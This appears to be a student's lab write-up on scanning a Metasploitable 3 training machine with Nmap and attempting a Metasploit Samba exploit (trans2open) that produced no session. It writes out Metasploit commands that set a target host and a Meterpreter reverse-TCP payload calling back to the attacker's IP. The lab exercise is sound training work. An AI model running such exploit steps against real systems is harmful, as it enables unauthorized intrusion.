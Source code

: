 

# Week 3 – Vulnerability Scanning and Exploitation (Metasploitable 3)

## Overview  
This week focused on performing *network reconnaissance* with Nmap and attempting *exploitation* with Metasploit against the Metasploitable 3 target machine. The objective was to identify open ports, detect services, enumerate vulnerabilities, and attempt to exploit Samba.

---

## Steps and Evidence  

### 🔍 1. Full Nmap Scan  
*Screenshot:* week3_scan1_nmap_full.png  
- Performed a full port scan on the target.  
- Identified open ports including *139* and *445 (SMB)*.  

---

### 🔍 2. Nmap Open Ports Scan  
*Screenshot:* week3_scan2_nmap_open_ports.png  
- Verified which ports were open and accessible.  
- Confirmed SMB-related ports.

---

### 🔍 3. Nmap Service Version Detection  
*Screenshot:* week3_scan3_nmap_service_versions.png  
- Ran -sV scan to identify service versions.  
- Found Samba service running on the target.

---

### 🔍 4. Nmap OS Detection  
*Screenshot:* week3_scan4_nmap_os_detection.png  
- Used -O option to detect the operating system.  
- Confirmed target OS type for exploitation attempts.  

---

### 🔍 5. Nmap Vulnerability Scan  
*Screenshot:* week3_scan5_nmap_vuln.png  
- Ran NSE vulnerability scripts on SMB.  
- Confirmed the service was potentially exploitable.  

---

### ⚡ 6. Starting Metasploit Framework  
*Screenshot:* week3_scan6_msfconsole.png  
- Opened msfconsole.  
- Prepared the exploitation phase.  

---

### ⚡ 7. Searching Samba Exploits in Metasploit  
*Screenshot:* week3_scan7_msf_search_samba.png  
- Used search samba command.  
- Listed multiple Samba exploits available in Metasploit.  

---

### ⚡ 8. Setting Target Host (RHOSTS)  
*Screenshot:* week3_scan9_msf_set_rhosts.png  
- Set the target machine IP:  
  ```bash
  set RHOSTS 172.28.128.3


⸻

⚡ 9. Setting Payload

Screenshot: week3_scan10_msf_set_payload.png
	•	Set the payload to establish a reverse shell:

set PAYLOAD linux/x86/meterpreter/reverse_tcp



⸻

⚡ 10. Setting Local Host (LHOST)

Screenshot: week3_scan11_msf_set_lhost.png
	•	Configured the attacker’s local IP for callback:

set LHOST 172.28.128.2



⸻

⚡ 11. Exploit Attempt

Screenshot: use_exploitlinuxsambatrans2open.png
	•	Used a Samba exploit module to attempt remote code execution.
	•	Exploit was launched, but no session was created (target did not open a shell).
	•	This shows that exploitation was attempted but unsuccessful in this configuration.

⸻

✅ Summary
	•	Successfully performed Nmap reconnaissance (ports, services, OS, vulnerabilities).
	•	Attempted Metasploit exploitation on Samba service.
	•	Exploit did not yield a session, but the lab demonstrated the process of moving from scanning → exploitation attempts.

---
 



